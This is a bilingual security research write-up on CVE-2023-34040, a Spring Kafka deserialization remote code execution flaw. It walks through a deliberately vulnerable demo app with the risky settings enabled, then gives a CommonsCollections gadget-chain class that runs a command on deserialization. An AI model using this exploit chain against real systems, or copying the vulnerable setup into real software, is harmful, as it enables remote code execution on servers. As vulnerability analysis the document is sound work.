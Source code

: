 
# CVE-2023-34040 Spring Kafka Deserialization Remote Code Execution

by pyn3rd

2023-09-15 (Updated: 2023-10-18)

##### [](#0x01-Preface "0x01 Preface")0x01 Preface 0x01 前言

Here is the explicit description about Spring Kafka deserialization vulnerability in Vmware security bulletin.  
以下是 Vmware 安全公告中有关 Spring Kafka 反序列化漏洞的明确描述。

![upload successful](assets/1699429152-e01d739cffd138c6f8cc285fd4461aa0.png)

Reference 参考

[https://spring.io/security/cve-2023-34040](https://spring.io/security/cve-2023-34040)

According to the description in security bulletin, we can simply attain some critical points resulting in the vulnerability.  
根据安全公告中的描述，我们可以简单地达到一些导致漏洞的关键点。

1.  Setting the `ErrorHandlingDeserializer` as a key and/or value in the Kafka record in configuration.  
    在配置中将 `ErrorHandlingDeserializer` 设置为 Kafka 记录中的键和/或值。
    
2.  Setting the boolean type properties `checkDeserExWhenKeyNull` and/or `checkDeserExWhenValueNull` to **true**.  
    将布尔类型属性 `checkDeserExWhenKeyNull` 和/或 `checkDeserExWhenValueNull` 设置为 true。
    
3.  The users can publish a Kafka topic without any verification.  
    用户无需任何验证即可发布 Kafka 主题。
    

##### [](#0x02-Concepts-of-Kafka "0x02 Concepts of Kafka")0x02 Concepts of Kafka Kafka 的 0x02 概念

Before deeply diving into the vulnerability, we promptly review some relevant concepts of the Kafka service.  
在深入研究漏洞之前，我们及时回顾了 Kafka 服务的一些相关概念。

![img](assets/1699429152-c987482c3ec4a543875c3b25b99f5788.jpg)

-   Producer：we call the object for publishing record **Kafka topic producer**  
    Producer：我们调用发布记录的对象 Kafka 主题 producer
    
-   Topic：The records are classified by the Kafka service, and each classification is named **Topic**.  
    Topic：记录按 Kafka 服务进行分类，每个分类都命名为 Topic。
    

-   Broker：The published messages are stored in a group of servers, we call it Kafka cluster. Each of the server is a **Broker**. The consumer can attain the data form **Broker** and consume more than one topic.  
    Broker：发布的消息存储在一组服务器中，我们称之为 Kafka 集群。每个服务器都是一个 Broker。消费者可以从 Broker 获取数据，并使用多个主题。

-   Consumer：The object which is used to subscribe message and handle with the published message is called **Kafka topi consumer**. The consumption messages are topic based.  
    Consumer：用于订阅消息并处理已发布消息的对象称为 Kafka topi consumer。消费消息是基于主题的。

Moreover,it is necessary to review the structure of Kafka record.  
此外，有必要对 Kafka 记录的结构进行回顾。

![upload successful](assets/1699429152-3b33d3be81ab4adf6d9e2e4d4becc1c1.png)

Kafka Record, we also call it **Message** or **Event** consisting of **Header** and **Body**. The header data virtually equals to **Metadata** including the basic elements like Topic, Patition and Timestamp. They are stored as a pair of key/value. The body data usually are the relevant business data stored as key/value constructure as well.  
Kafka Record，我们也称它为 Message 或 Event，由 Header 和 Body 组成。标头数据实际上等于元数据，包括 Topic、Patition 和 Timestamp 等基本元素。它们存储为一对键/值。正文数据通常也是存储为键/值结构的相关业务数据。

##### [](#Preparation "Preparation")Preparation 制备

Zookeeper server is required before deploying Kafka service.  
在部署 Kafka 服务之前，需要 Zookeeper 服务器。

1.Installing Zookeeper server by docker  
1.通过 docker 安装 Zookeeper 服务器

|     |     |
| --- | --- |
| ```bash<br>1<br>``` | ```bash<br>docker run -d --name zookeeper -p 2181:2181 -t zookeeper:latest<br>``` |

2.Deploying Kafka server by docker  
2.通过 docker 部署 Kafka 服务器

|     |     |
| --- | --- |
| ```bash<br>1<br>2<br>3<br>4<br>5<br>6<br>``` | ```bash<br>docker run  -d --name kafka -p 9092:9092 \<br>-e KAFKA_ZOOKEEPER_CONNECT=192.168.5.102:2181 \<br>-e KAFKA_ADVERTISED_LISTENERS=PLAINTEXT://192.168.5.102:9092 \<br>-e KAFKA_LISTENERS=PLAINTEXT://0.0.0.0:9092 \<br>-e TZ="Asia/Shanghai" \<br>wurstmeister/kafka:latest<br>``` |

3.Spring Boot project imports the affected Kafka dependencies  
3.Spring Boot 项目导入受影响的 Kafka 依赖

Affected version： 受影响的版本：

-   2.8.1 to 2.9.10 2.8.1 到 2.9.10
-   3.0.0 to 3.0.9 3.0.0 到 3.0.9

|     |     |
| --- | --- |
| ```bash<br>1<br>2<br>3<br>4<br>5<br>``` | ```bash<br><dependency><br>        <groupId>org.springframework.kafka</groupId><br>        <artifactId>spring-kafka</artifactId><br>        <version>2.8.11</version><br>    </dependency><br>``` |

4.Updating the configuration in `application.yaml`  
4.更新配置 `application.yaml`

![upload successful](assets/1699429152-74426f707baf05dac8a0f23882952004.png)

5.Classes for demonstration  
5.示范类

1）Kafka Producer Class 1）Kafka 生产者类

|     |     |
| --- | --- |
| ```bash<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>8<br>9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>21<br>22<br>23<br>24<br>25<br>26<br>27<br>28<br>29<br>30<br>31<br>32<br>33<br>34<br>35<br>36<br>37<br>38<br>39<br>40<br>41<br>42<br>43<br>44<br>45<br>46<br>47<br>48<br>49<br>50<br>51<br>52<br>53<br>``` | ```bash<br>package com.example.SpringKafkaDemo.producer;<br><br>import com.example.SpringKafkaDemo.model.KafkaMessage;<br>import org.apache.kafka.clients.producer.ProducerRecord;<br>import org.springframework.beans.factory.annotation.Autowired;<br>import org.springframework.kafka.core.KafkaTemplate;<br>import org.springframework.web.bind.annotation.*;<br><br>import java.util.HashMap;<br><br>@RestController<br>public class KafkaProducer {<br><br>    @Autowired<br>    private KafkaTemplate<String, String> kafkaTemplate;<br><br>    @PostMapping("/message/send")<br>    public String sendMessage(@RequestBody KafkaMessage message) {<br><br>        String topic = message.getTopic();<br>        String data  = message.getData();<br><br>       HashMap<String, String> headers = message.getHeaders();<br><br><br>        ProducerRecord<String, String> producerRecord = new ProducerRecord<>(topic, data);<br>        for (String s : headers.keySet()) {<br>            if (s.equals("springDeserializerExceptionKey")) {<br>                String exceptData = headers.get(s);<br>                byte[] exceptHandler = KafkaProducer.hexStringtoBytes(exceptData);<br>                producerRecord.headers().add(s, exceptHandler);<br>                continue;<br>            }<br><br>            producerRecord.headers().add(s, headers.get(s).getBytes());<br>        }<br>        kafkaTemplate.send(producerRecord);<br>        String jsonString="{\"code\":\"200\", \"status\":\"success\"}";<br><br>        return jsonString;<br>    }<br><br><br>    private static byte[] hexStringtoBytes(String hexString) {<br><br>        byte[] excepetionMessage = new byte[hexString.length() / 2];<br>        for (int i = 0; i < excepetionMessage.length; i++) {<br>            excepetionMessage[i] = (byte) Integer.parseInt(hexString.substring(i * 2, i * 2 + 2), 16);<br><br>        }<br>        return excepetionMessage;<br>    }<br>}<br>``` |

By the way, here we use a type of design pattern in Java Language, **Template Method Pattern**. In this demonstration, I insert a template named `kafkaTemplate`.  
顺便说一句，这里我们使用 Java 语言中的一种设计模式，即模板方法模式。在本演示中，我插入了一个名为 `kafkaTemplate` .

Highlight of the code fragment  
代码片段的突出显示

|     |     |
| --- | --- |
| ```bash<br>1<br>``` | ```bash<br>private KafkaTemplate<String, String> kafkaTemplate;<br>``` |

2）Kafka Consumer Class 2）Kafka 消费类

|     |     |
| --- | --- |
| ```bash<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>8<br>9<br>10<br>11<br>12<br>13<br>14<br>``` | ```bash<br>package com.example.SpringKafkaDemo.consumer;<br><br>import org.springframework.kafka.annotation.KafkaListener;<br>import org.springframework.stereotype.Service;<br><br>@Service<br>public class KafkaConsumer {<br><br>    @KafkaListener(topics = "my-topic", groupId = "my-group-id")<br>    public void consume(String message) {<br>        System.out.println("Received message: " + message);<br>    }<br><br>}<br>``` |

3）Config Class for the Consumer  
3）消费者的配置类

|     |     |
| --- | --- |
| ```bash<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>8<br>9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>21<br>22<br>23<br>24<br>25<br>26<br>27<br>28<br>29<br>30<br>31<br>32<br>33<br>34<br>35<br>36<br>37<br>38<br>39<br>40<br>41<br>42<br>43<br>44<br>45<br>46<br>47<br>48<br>49<br>50<br>``` | ```bash<br>package com.example.SpringKafkaDemo.config;<br><br>import org.apache.kafka.clients.consumer.ConsumerConfig;<br>import org.springframework.beans.factory.annotation.Value;<br>import org.springframework.context.annotation.Bean;<br>import org.springframework.context.annotation.Configuration;<br>import org.springframework.kafka.annotation.EnableKafka;<br>import org.springframework.kafka.config.ConcurrentKafkaListenerContainerFactory;<br>import org.springframework.kafka.core.ConsumerFactory;<br>import org.springframework.kafka.core.DefaultKafkaConsumerFactory;<br>import org.springframework.kafka.support.serializer.JsonDeserializer;<br><br>import java.util.HashMap;<br>import java.util.Map;<br><br>@Configuration<br>@EnableKafka<br>public class KafkaConsumerConfig {<br><br>    @Value("${spring.kafka.bootstrap-servers}")<br>    private String bootstrapServers;<br><br>    @Value("${spring.kafka.consumer.group-id}")<br>    private String groupId;<br><br>    @Bean<br>    public Map<String, Object> consumerConfigs() {<br>        Map<String, Object> props = new HashMap<>();<br>        props.put(ConsumerConfig.BOOTSTRAP_SERVERS_CONFIG, bootstrapServers);<br>        props.put(ConsumerConfig.GROUP_ID_CONFIG, groupId);<br>        props.put(ConsumerConfig.AUTO_OFFSET_RESET_CONFIG, "earliest");<br>        props.put(ConsumerConfig.KEY_DESERIALIZER_CLASS_CONFIG, JsonDeserializer.class);<br>        props.put(ConsumerConfig.VALUE_DESERIALIZER_CLASS_CONFIG, JsonDeserializer.class);<br>        return props;<br>    }<br><br>    @Bean<br>    public ConsumerFactory<String, String> consumerFactory() {<br>        return new DefaultKafkaConsumerFactory<>(consumerConfigs());<br>    }<br><br>    @Bean<br>    public ConcurrentKafkaListenerContainerFactory<String, String> kafkaListenerContainerFactory() {<br>        ConcurrentKafkaListenerContainerFactory<String, String> factory = new ConcurrentKafkaListenerContainerFactory<>();<br>        factory.setConsumerFactory(consumerFactory());<br>        factory.getContainerProperties().setCheckDeserExWhenKeyNull(true);<br>        factory.getContainerProperties().setCheckDeserExWhenValueNull(true);<br>        return factory;<br>    }<br>}<br>``` |

In acordance with the vulnerablity description in official bulletin, we should set both the `checkDeserExWhenKeyNull` and `checkDeserExWhenValueNull` properties to **true**.  
根据官方公告中的漏洞描述，我们应该将 `checkDeserExWhenKeyNull` 和 `checkDeserExWhenValueNull` 属性都设置为 true。

|     |     |
| --- | --- |
| ```bash<br>1<br>2<br>``` | ```bash<br>factory.getContainerProperties().setCheckDeserExWhenKeyNull(true)<br>factory.getContainerProperties().setCheckDeserExWhenValueNull(true)<br>``` |

Se the breakpoint at the `getExceptionFromHeader` function and then have the server start.  
在 `getExceptionFromHeader` 函数处找到断点，然后启动服务器。

![upload successful](assets/1699429152-f628f57fe1aba9e01f33d13a552de473.png)

Step into `invokeIfHaveRecords` function, the record object will be deserialized.  
单步执行 `invokeIfHaveRecords` 函数时，记录对象将被反序列化。

![upload successful](assets/1699429152-aa2c7f3899f0bd373a5f79d71c781ddf.png)

![upload successful](assets/1699429152-08a9bd1a8060e44340b3a2e58a1b2b97.png)

Back to the `getExceptionFromHeader` function.  
回到函数。 `getExceptionFromHeader`

![upload successful](assets/1699429152-820bdce111f3b0e83325b0b13104c5a4.png)

This function makes the value `springDeserializerExceptionKey` of `record.headers()` into the the value of the variables `headerName` and be delivered `header`.  
这个函数使 的值 `record.headers()` 变成变量 `headerName` 的值 `springDeserializerExceptionKey` 并被传递 `header` 。

And then deliver the value to `byteArrayToDeserializationException` function.  
然后将价值交付给 `byteArrayToDeserializationException` 功能。

![upload successful](assets/1699429152-73a4c84798e95d6ba399bb728a1c7445.png)

Step into `byteArrayToDeserializationException` function.  
单步执行 `byteArrayToDeserializationException` 函数。

![upload successful](assets/1699429152-fb95d2146ca99e488a747630433fd226.png)

The `resolveClass` function is overrided to restrain arbitrary Java class deserialization. Actually, we can find the way of preventing Java deserialization vulnerability in many projects, like Apache Shiro, Fastjson.  
重写该 `resolveClass` 函数以限制任意 Java 类反序列化。实际上，我们可以在很多项目中找到防止 Java 反序列化漏洞的方法，比如 Apache Shiro、Fastjson。

![upload successful](assets/1699429152-68683de7b64aabc60a5d2d295aabf88b.png)

Apparently, only the class  
显然，只有类  
`org.springframework.kafka.support.serializer.DeserializationException` can be deserialized.  
`org.springframework.kafka.support.serializer.DeserializationException` 可以反序列化。

![upload successful](assets/1699429152-c069cf3e5e81f1cc2cabfbd85ebc085c.png)

Step into `DeserializationException` function, it consists four arguments. One of them is `cause` which is used to invoke instantial class.  
单步执行 `DeserializationException` 函数，它由四个参数组成。其中之一是 `cause` 用于调用瞬时类。

![upload successful](assets/1699429152-941608e846deeb63d3ceeb49046cba4a.png)

Write a malicious class and make it inherit the parent class `Throwable`.  
编写一个恶意类并使其继承父类 `Throwable` 。

![upload successful](assets/1699429152-24638834647be24ca06440835f228050.png)

Eventually, fill the value of the `springDeserializerExceptionKey` key in JSON data with the generated Java serialization. The remote code execution is trigged after sending the HTTP request.  
最后，使用生成的 Java 序列化填充 JSON 数据中 `springDeserializerExceptionKey` 键的值。发送 HTTP 请求后，将触发远程代码执行。

![upload successful](assets/1699429152-d66ea4de0295d44366afb8701980b789.png)

In addition, we could exploit `CommonsCollections` gadget as well. Thus, the malicious class could be constructed as follow.  
此外，我们还可以利用 `CommonsCollections` 小工具。因此，恶意类可以构造如下。

|     |     |
| --- | --- |
| ```bash<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>8<br>9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>21<br>22<br>23<br>24<br>25<br>26<br>27<br>28<br>29<br>30<br>31<br>32<br>33<br>34<br>35<br>36<br>37<br>38<br>39<br>40<br>41<br>42<br>``` | ```bash<br>package org.example.deserialization;<br><br>import org.apache.commons.collections.Transformer;<br>import org.apache.commons.collections.functors.ChainedTransformer;<br>import org.apache.commons.collections.functors.ConstantTransformer;<br>import org.apache.commons.collections.functors.InvokerTransformer;<br>import org.apache.commons.collections.map.TransformedMap;<br><br>import java.util.HashMap;<br>import java.util.Map;<br><br>public class CustomExceptionClass extends Throwable {<br><br>    // CommonCollection6 Gadget in Static Code Block<br><br>    static {<br>        Transformer[] transformers=new Transformer[]{<br>                new ConstantTransformer(Runtime.class),<br>                new InvokerTransformer("getMethod",<br>                        new Class[]{String.class, Class[].class},<br>                        new Object[]{"getRuntime", new Class[0]}),<br>                new InvokerTransformer("invoke",<br>                        new Class[]{Object.class, Object[].class},<br>                        new Object[]{null, new Object[0]}),<br>                new InvokerTransformer("exec",<br>                        new Class[]{String.class},<br>                        new Object[]{"open -a calculator"})<br>        };<br><br>        Map<String, String> innerMap= new HashMap<>();<br>        innerMap.put("key","value");<br><br>        Map<String, String> outerMap = TransformedMap.decorate(<br>                innerMap,<br>                null,<br>                new ChainedTransformer(transformers));<br><br>        outerMap.put("topic", "test");<br><br>    }<br>}<br>``` |

##### [](#Proof-of-Content "Proof of Content")Proof of Content 内容证明

[https://github.com/pyn3rd/CVE-2023-34040](https://github.com/pyn3rd/CVE-2023-34040)

